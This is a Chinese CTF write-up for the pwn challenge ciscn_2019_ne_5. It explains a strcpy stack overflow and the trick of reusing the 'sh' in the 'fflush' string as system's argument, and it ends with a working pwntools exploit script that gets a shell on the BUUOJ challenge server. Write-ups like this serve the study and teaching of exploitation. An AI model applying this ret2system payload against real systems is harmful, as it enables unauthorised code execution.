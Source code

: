 ### ciscn_2019_ne_5（没做出来）

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghuzm89jo9j30oc066glt.jpg)

f5报错Decompilation failure: call analysis failed，根据[百度到师傅的博客](https://blog.csdn.net/xiangshangbashaonian/article/details/82889924)双击_isoc99_scanf函数后解决

主要函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv6xdswgpj30u0135wpj.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv6ycumg0j30q206kmxd.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv6yj6h5cj30o2066mx6.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv6yy7uihj30pc06g0ss.jpg)

有system函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv6z6aoxcj30ym0d6t9p.jpg)

在strcpy复制的时候存在溢出

开始我还想泄露栈地址，写入"/bin/sh"，后俩发现行不通，又想着直接泄露地址用libc里的"/bin/sh"，又卡在了奇怪的地方（憨憨落泪）

参考了百度上师傅的wp，才知道这个小技巧

main函数调用了fflush函数，所以内存中有"fflush"字符串，只要把其中的"sh"作为调用system函数的参数就可以了

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv758lmbij317w02eq2w.jpg)

找到"sh"的地址，rop就能getshell了

exp

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

elf = ELF('./ciscn_2019_ne_5')
#p = process('./ciscn_2019_ne_5')
p = remote("node3.buuoj.cn", 27461)
#gdb.attach(p,'b *0x08048667\n b *0x80486fc')

libc=ELF("./libc-2.27.so")
system = elf.plt['system']
sh = 0x080482ea

p.recvuntil('Please input admin password:')
p.sendline('administrator')

p.recvuntil('0.Exit')
p.recvuntil(':')
p.sendline('1')
payload = 'a'*8+'b'*60+'c'*8
payload += p32(system)+'aaaa'+p32(sh)
p.recvuntil('info:')
p.sendline(payload)

p.recvuntil('0.Exit')
p.recvuntil(':')
p.sendline('4')

```